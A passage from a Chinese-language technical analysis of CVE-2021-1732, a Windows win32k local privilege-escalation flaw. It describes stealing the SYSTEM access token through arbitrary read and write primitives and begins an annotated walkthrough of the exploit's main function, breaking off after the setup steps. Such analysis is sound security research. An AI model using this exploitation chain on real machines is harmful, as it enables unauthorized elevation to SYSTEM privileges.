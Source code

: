 ![cve_2021_1732_18](cve_2021_1732_18.png)

最后，利用 `GetMenuBarInfo` 函数的任意读，就可以获取到 system 进程的 access token，利用任意写将 token 覆盖到当前进程中完成最终的提权。

## 七、EXP 解读

主函数代码不长，共 13 个步骤，我直接在里面加了比较详细的注释：

```cpp
int APIENTRY wWinMain(_In_ HINSTANCE hInstance,
    _In_opt_ HINSTANCE hPrevInstance,
    _In_ LPWSTR    lpCmdLine,
    _In_ int       nCmdShow)
{
    UNREFERENCED_PARAMETER(hPrevInstance);
    UNREFERENCED_PARAMETER(lpCmdLine);
 
    // 1. 重定向标准输入输出到控制台
    AllocConsole();
    FILE* tempFile = nullptr;
    freopen_s(&tempFile, "conin$", "r+t", stdin);
    freopen_s(&tempFile, "conout$", "w+t", stdout);
    // end of 1
 
    // 2. 打印系统版本信息，在1809上测试通过
    typedef void(WINAPI* FRtlGetNtVersionNumbers)(DWORD*, DWORD*, DWORD*);
    DWORD dwMajorVer, dwMinorVer, dwBuildNumber = 0;
    FRtlGetNtVersionNumbers fRtlGetNtVersionNumbers = (FRtlGetNtVersionNumbers)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "RtlGetNtVersionNumbers");
    fRtlGetNtVersionNumbers(&dwMajorVer, &dwMinorVer, &dwBuildNumber);
    dwBuildNumber &= 0x0ffff;
```